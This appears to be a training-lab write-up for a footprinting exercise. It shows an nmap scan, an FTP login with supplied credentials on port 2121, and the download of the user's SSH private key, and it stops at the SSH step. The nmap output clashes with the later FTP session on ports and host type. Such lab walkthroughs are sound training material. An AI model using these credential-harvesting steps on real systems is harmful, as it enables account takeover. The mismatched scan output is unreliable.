 # Footprinting Lab - Easy 
1. Enumerate the target machine using nmap:
```
$ sudo nmap -n --disable-arp-ping -Pn <ip>
...
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 27.99 seconds
```
1. We are already given the following credentials `ceil:qwer1234`. Try to connect to the ftp server at port `21` with this credentials. But notice ftp via this port is jailed to an empty directory. Try ftp to port `2121` and bingo:
```
ftp 10.129.18.14 2121
Connected to 10.129.18.14.
220 ProFTPD Server (Ceil's FTP) [10.129.18.14]
Name (10.129.18.14:kali): ceil
331 Password required for ceil
Password:
230 User ceil logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||45769|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete
ftp> cd .ssh
250 CWD command successful
ftp> ls -la
229 Entering Extended Passive Mode (|||39334|)
150 Opening ASCII mode data connection for file list
drwx------   2 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
226 Transfer complete
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||49498|)
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
100% |***************************************************************************|  3381       13.04 KiB/s    00:00 ETA
226 Transfer complete
3381 bytes received in 00:00 (5.99 KiB/s)
```
1. At local, use the private key obtained from the target and connect to it via ssh: